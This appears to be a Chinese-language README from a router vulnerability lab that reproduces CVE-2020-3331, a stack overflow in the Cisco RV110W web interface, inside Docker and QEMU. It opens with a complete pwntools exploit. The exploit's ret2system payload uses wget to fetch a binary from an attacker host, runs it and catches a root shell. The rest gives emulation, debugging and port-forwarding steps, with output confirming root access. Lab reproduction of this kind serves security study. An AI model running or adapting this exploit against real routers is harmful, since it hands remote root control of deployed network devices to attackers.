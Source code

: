 # Cisco RV110W 路由器远程代码执行漏洞（CVE-2020-3331）

[思科路由器 RV110W CVE-2020-3331 / CVE-2020-3323 漏洞复现](https://xuanxuanblingbling.github.io/iot/2020/10/26/rv110w/)

- 版本：Cisco RV110W 1.2.2.5
- 漏洞：前台 cgi 接口 `guest_logout.cgi` 栈溢出
- 利用：a0 寄存器可控，ret2system

```python
#!/usr/bin/python3
from pwn import *
import requests
import _thread

context(arch='mips', endian='little', os='linux')

io = listen(31337)
system = 0x0047A610

cmd  = '\n'
cmd += 'rm /msf\n'
cmd += 'wget http://192.168.2.1:8000/tools/msf -O /msf\n'
cmd += 'chmod 777 /msf\n'
cmd += '/msf\n'

assert(len(cmd) < 0x55)

payload = b"status_guestnet.asp" + cmd.ljust(0x55,'a').encode() + p32(system) 
data = {"cmac":"12:af:aa:bb:cc:dd", "submit_button":payload, "cip":"192.168.100.1"}

def attack():
    try: requests.post("http://192.168.2.2/guest_logout.cgi", data=data, timeout=1)
    except: pass

_thread.start_new_thread(attack, ())
io.wait_for_connection()
log.success("getshell")
io.interactive()
```

## 环境简述

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- httpd（有漏洞 Web 服务器）：192.168.2.2:80

## 基本环境

本环境关系依赖如下，需依次构建：

```sh
# firmianay/ubuntu1604 -> firmianay/qemu-system:mipsel

$ cd baseImage/ubuntu1604 && docker build -t firmianay/ubuntu1604 . && cd ../../
$ cd baseImage/qemu-system/mipsel && docker build -t firmianay/qemu-system:mipsel . && cd ../../../
```

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/RV110W_FW_1.2.2.5.bin"
```

然后即可构建本例镜像：

```sh
# cp baseImage/busybox/1.31.0/busybox-mipsel CVE-2020-3331/system-emu/tools/busybox
# cp baseImage/gdbserver/7.11.1/mipsel-gdbserver-7.11.1 CVE-2020-3331/system-emu/tools/gdbserver

$ cd Cisco/CVE-2020-3331
$ docker-compose -f docker-compose-system.yml build
```

## 首次攻击尝试

仍然在 `Cisco/CVE-2020-3331` 目录中，启动镜像：

```sh
$ docker-compose -f docker-compose-system.yml up
```

出现如下内容说明 Web 服务启动完成：

```
cisco-system  | http_settimeouts=Unknown
cisco-system  | http_settimeouts_usec=Unknown
cisco-system  | http_debug=Unknown
```

再开启一个容器的 shell，即可尝试首次攻击：

```sh
$ docker exec -it cisco-system /bin/bash

root@7463bb44fe27:$ python3 ./tools/exp.py 
[+] Trying to bind to :: on port 31337: Done
[+] Waiting for connections on :::31337: Got connection from ::ffff:192.168.2.2 on port 57638
[+] getshell
[*] Switching to interactive mode
$ uname -a
Linux debian-mipsel 3.2.0-4-4kc-malta #1 Debian 3.2.51-1 mips unknown
$ id
uid=0 gid=0
```

## docker 中调试

参考 `run.sh` 进行配置。

窗口一：开启调试（qemu-system shell）

```sh
$ docker exec -it cisco-system /bin/bash

root@7463bb44fe27:$ cd images
root@7463bb44fe27:$ ps -ef | grep qemu-system  | awk '{print $2}' | xargs kill -9
root@7463bb44fe27:$ qemu-system-mipsel -M malta -kernel vmlinux-3.2.0-4-4kc-malta -hda debian_wheezy_mipsel_standard.qcow2 -append "root=/dev/sda1 console=tty0" -net nic -net tap,ifname=tap0,script=no,downscript=no -nographic

即可进入 qemu-system，以 root:root 手动登录后进行调试：

root@debian-mipsel:$ cd squashfs-root/
root@debian-mipsel:$ ./tools/run_httpd.sh
root@debian-mipsel:$ ps -ef | grep httpd | grep -v 'grep' | awk '{print $2}' | xargs ./tools/gdbserver :6666 --attach
Attached; pid = 2328
Listening on port 6666
```

窗口二：调试界面（docker shell）

```sh
$ docker exec -it cisco-system /bin/bash

root@7463bb44fe27:$ tar xzf squashfs-root.tar.gz
root@7463bb44fe27:$ gdb-multiarch -x ./tools/gdb.cmd 
gef➤  c
```

窗口三：触发漏洞（docker shell）

```sh
$ docker exec -it cisco-system /bin/bash

root@7463bb44fe27:$ python3 ./tools/exp.py
```

## 本机调试

如果你不想用 docker 进行调试，在 docker-compose 中预留了端口映射，可以手动使用 ssh 将 qemu 靶机的 80 和 6666 端口转发到 docker 主机，通过 docker 最终映射到宿主机的端口上：

```yml
ports:
    - "8888:80"
    - "6666:6666"
```

在 docker 里执行如下命令进行端口转发：

```sh
$ ssh root@127.0.0.1 -f -N -g -R 0.0.0.0:6666:192.168.2.2:6666
$ ssh root@127.0.0.1 -f -N -g -R 0.0.0.0:80:192.168.2.2:80
```

待启动调试后，即可在宿主机上访问 8888 和 6666 端口来访问漏洞服务和 gdbserver 了。

